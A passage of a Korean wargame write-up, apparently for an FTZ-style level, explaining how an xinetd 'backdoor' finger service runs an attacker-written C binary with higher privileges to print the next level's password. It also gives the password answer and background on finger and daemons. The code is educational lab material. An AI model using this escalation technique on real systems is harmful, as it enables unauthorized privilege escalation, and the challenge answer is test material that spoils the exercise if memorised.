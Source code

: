 ```  
기본 finger 서비스의 경우 disable 옵션이 yes 라서 외부에서 접속할 경우엔 실행되지 않는다. 하지만 backdoor 서비스는 disable이 no 로 설정이되어있어 외부에서 접속할 경우엔 backdoor 서비스가 실행된다.  

finger 명령어는 외부 서버의 유저들의 정보도 가져올 수 있는 기능이 있는데,
finger [user]@[host] 명령어를 사용하면 된다.  

backdoor 를 실행시켜야 원하는 기능을 실행시킬 수 있으므로 finger @localhost를 하면 우리가 지정한 backdoor가 실행된다.  

4. 그러면 backdoor 역할의 파일을 임의로 만들어 finger 서비스 구동 시 xinetd에 의해 그 파일이 데몬으로 실행되도록 만들자!  
```
//backdoor.c  

#include <stdlib.h>
#include <stdio.h>

int main(void)
{
  system("my-pass");
  return 0;
}
```  
system 함수를 사용해 backdoor 실행 시, level5의 권한으로 실행되므로  
my-pass 명령어를 통해 level5의 패스워드를 출력하도록 한다!  

5. 컴파일하자  
```gcc -o backdoor backdoor.c```  
6. 이제 finger 서비스 구동 시 xinetd가 실행할 파일 backdoor을 만들었으니, finger 서비스를 실행시켜보자!  
```finger @localhost```  

7. 비밀번호는 what is your name?  

~~근데 난 왜 안되냐... system("id"); 하면 Broken pipe 뜸...~~  
~~system("cat /home/level4/hint; id") 이 명령어는 또 잘됨 왜이래...~~  


## 연관된 정보들  
### finger  
finger은 리눅스에서 사용자의 계정 정보를 확인하는 명령어이다.  
* finger 옵션  
-s : 사용자의 로그온 이름, 실제 이름, 터미널 이름, 로그온 시간 등을 보여준다.  
-l : -s 옵션 정보에 몇 가지를 추가하여, 여러 줄에 걸쳐서 보여준다.  
-p : -l 옵션 정보에서 .plan과 .project 파일을 보이지 않는다.  
옵션이 주어지지 않으면, 기본적으로 -l 옵션을 사용한 것으로 간주된다.  

* 명령어  
```finger``` : finger만 치면 현재 시스템에 로그인 되어 있는 사용자들을 보여준다.  
```finger user명``` : user을 적고 host명을 명시하지 않으면, finger는 로컬에 접속하게 된다.  
```finger @host명``` : host명만 적고 user를 명시하지 않으면, 해당 서버의 접속해 있는 모든 유저의 정보를 출력한다.  
```finger user명 @host명``` ```finger @host명 user명``` : user명과 호스트명을 이런식으로 기입하면 원격 서버의 사용자계정정보 확인하는 것이 된다.  

* 참고  
finger 명령어는 지정된 계정사용자 정보를 /etc/passwd 파일에서 읽어서 보여주는 것이다.  

### Daemon  
* 멀티태스킹 운영체제에서 데몬(deamon)은 사용자가 직접적으로 제어하지 않고, 백그라운드에서 돌면서 여러 작업을 하는 프로그램  
* 특정 서비스를 위해 백그라운드 상태에서 계속 실행되는 서버 프로세스  
* 시스템에 관련된 작업을 하는 후위 프로세스(background process)  
* 보통 데몬을 뜻하는 'd'를 이름 끝에 달고 있으며, 일반적으로 프로세스로 실행  
* 서비스 요청이 없을 때는 후위 프로세스로서 유휴(idle) 상태에 들어가 시스템의 CPU를 차지하지 않지만 메모리와 기타 자원을 상당수 차지  
* 데몬은 부팅 중에 메모리에 로딩되어 컴퓨터가 종료될 때까지 상주  
* 데몬은 대개 부모 프로세스를 갖지 않는다.  
PPID = 0  
프로세스 트리에서 init 바로 아래에 위치  
* 데몬이 되는 방법  
fork off and die : 자식 프로세스를 fork하여 생성하고 자식을 분기한 자신을 죽이면 init이 고아가 된 자식 프로세스를 자기 밑으로 데려간다.  
```